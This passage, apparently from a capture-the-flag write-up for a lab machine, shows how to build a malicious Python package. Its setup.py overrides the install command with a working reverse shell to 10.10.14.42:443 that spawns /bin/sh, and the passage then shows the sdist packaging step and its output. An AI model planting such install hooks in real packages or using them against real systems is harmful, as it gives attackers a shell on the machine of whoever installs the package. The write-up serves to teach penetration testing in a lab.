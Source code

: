 By default, `setup` has a handful of commands know by `pip` and `setup.py`,
like `install`, `uninstall`, `list,` etc. I can use the `cmdclass` argument to
`setup` to pass in a dictionary of commands with classes to use for them. The
class should have a `run` method, and that will run. Because I’m expecting
this interaction to happen immediately, I’ll just have the `run` function be a
reverse shell:

    
    
    import os
    import socket
    import subprocess
    from setuptools import setup
    from setuptools.command.install import install
    
    class Exploit(install):
        def run(self):
            RHOST = '10.10.14.42'
            RPORT = 443
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((RHOST, RPORT))
            for i in range(3):
                os.dup2(s.fileno(), i)
            p = subprocess.call(["/bin/sh","-i"])
    
    setup(name='revshell',
          version='0.0.1',
          description='Reverse Shell',
          author='0xdf',
          author_email='0xdf',
          url='http://sneakycopy.htb',
          license='MIT',
          zip_safe=False,
          cmdclass={'install': Exploit})
    

### Package and Upload

#### Local Package

To create a package, I can go into the `revshell` directory that contains
`setup.py` and run it with the `sdist` command:

    
    
    root@kali# python setup.py sdist
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)